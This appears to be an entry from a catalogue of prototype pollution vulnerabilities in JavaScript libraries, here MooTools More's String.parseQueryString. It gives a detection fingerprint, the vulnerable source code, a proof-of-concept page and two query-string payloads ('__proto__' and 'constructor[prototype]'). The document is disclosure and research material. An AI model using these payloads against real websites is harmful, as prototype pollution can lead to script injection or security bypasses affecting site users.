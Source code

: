 ## MooTools More

URL: https://github.com/mootools/mootools-more

### JS Fingerprint
```
return (typeof String.parseQueryString != 'undefined')
```

### Vulnerable code fragment

https://github.com/mootools/mootools-more/blob/687363b141c7d6abb89e6716462bbd99545f81e5/Source/Types/String.QueryString.js#L46

```js
  parseQueryString: function(decodeKeys, decodeValues){
    if (decodeKeys == null) decodeKeys = true;
    if (decodeValues == null) decodeValues = true;

    var vars = this.split(/[&;]/),
      object = {};
    if (!vars.length) return object;

    vars.each(function(val){
      var index = val.indexOf('=') + 1,
        value = index ? val.substr(index) : '',
        keys = index ? val.substr(0, index - 1).match(/([^\]\[]+|(\B)(?=\]))/g) : [val],
        obj = object;
      if (!keys) return;
      if (decodeValues) value = decodeComponent(value);
      keys.each(function(key, i){
        if (decodeKeys) key = decodeComponent(key);
        var current = obj[key];

        if (i < keys.length - 1) obj = obj[key] = current || {};
        else if (typeOf(current) == 'array') current.push(value);
        else obj[key] = current != null ? [current, value] : value;
      });
    });

    return object;
  }       
```

### PoC
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools-more/1.6.0/mootools-more-compressed.js"></script>
<script>
  String.parseQueryString(location.search.slice(1))
</script>
```
```
?__proto__[test]=test
?constructor[prototype][test]=test
```